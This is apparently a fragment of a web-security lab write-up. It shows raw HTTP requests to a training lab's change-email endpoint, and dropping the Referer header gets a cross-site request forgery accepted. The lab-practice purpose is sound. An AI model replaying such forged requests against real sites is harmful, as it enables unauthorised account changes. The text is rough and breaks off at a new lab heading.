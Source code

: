   Delete the Referer header entirely and observe that the request is now accepted.
  
    POST /my-account/change-email HTTP/1.1
    Host: 0a89008703ebcffdc0d93c820012003e.web-security-academy.net
    Cookie: session=JVkCCpZQiS0OYc5fps8TmHh504ingf6f
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 21
    Origin: https://0a89008703ebcffdc0d93c820012003e.web-security-academy.net
    Referer: https://0a89008703ebcffdc0d93c820012003e.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com
  
 ## Delete the Referer header entirely and observe that the request is now accepted.
 
    Referer: https://0a89008703ebcffdc0d93c820012003e.web-security-academy.net/my-account
 
 ## Sand Request 
   
    POST /my-account/change-email HTTP/1.1
    Host: 0a89008703ebcffdc0d93c820012003e.web-security-academy.net
    Cookie: session=JVkCCpZQiS0OYc5fps8TmHh504ingf6f
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 21
    Origin: https://0a89008703ebcffdc0d93c820012003e.web-security-academy.net
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com
 
 Accept The Request, CSRF vulnerability
 
 ## 7 CSRF with broken Referer validation
 